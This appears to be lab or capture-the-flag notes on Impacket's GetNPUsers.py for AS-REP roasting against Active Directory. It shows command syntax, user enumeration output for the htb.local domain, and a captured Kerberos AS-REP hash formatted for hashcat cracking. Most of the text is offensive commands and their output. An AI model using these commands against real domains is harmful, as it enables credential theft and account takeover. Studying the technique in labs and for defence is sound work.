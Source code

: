 # Impacket - GetNPUsers.py

This script will attempt to list and get TGTs for those users that have the property, `Do not require Kerberos preauthentication` set (`UF_DONT_REQUIRE_PREAUTH`).
For those users with such configuration, a John The Ripper output will be generated so you can send it for cracking.

## Example:

```bash
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

### Enum user:

```bash
$ impacket-GetNPUsers -dc-ip <IP> '<DOMAIN>/'
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2022-07-01 09:58:43.840007  2019-09-23 12:09:47.931194  0x410200

```

### Crack Hash - Hashcat

**Need option**

`-format` : Select `hashcat` or `john` .

`-request`: Requests TGT for users and output them in JtR/hashcat format (default False).

```bash
$impacket-GetNPUsers -dc-ip <IP> '<DOMAIN>/' -format hashcat -request
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2022-07-01 10:01:34.902827  2019-09-23 12:09:47.931194  0x410200



$krb5asrep$23$svc-alfresco@HTB.LOCAL:94bd35adb7731d64f7d16fbb753d7a04$84ed0c8b050f0a070b688182f6284564bae4ecfc5f4485f3b73e914f1daaa34b66165bdf558974da11208a984d7656e7c596a472e9463a73151cee687d8975aa626eb148f6036c99dca35e0a21cc1d644cc89e6268e36b2be7f40af78e51803de412c395c7d1ccdda5b5ee15e67e1dd0c3e398bc1dfc8688ddca3508968711d9d09735e705f20812b6ade6ec58b9f459413b7afa16ef9dcdced04479a93768f83e42da03f95cbdf1159f17ce01f133dfabf66bf8981d9818426ad1a7118fc7a433eb12274db826c388712468be042af2215e6f16ebd6cabfb873f1a2de1ae0c475554dbf3746
```
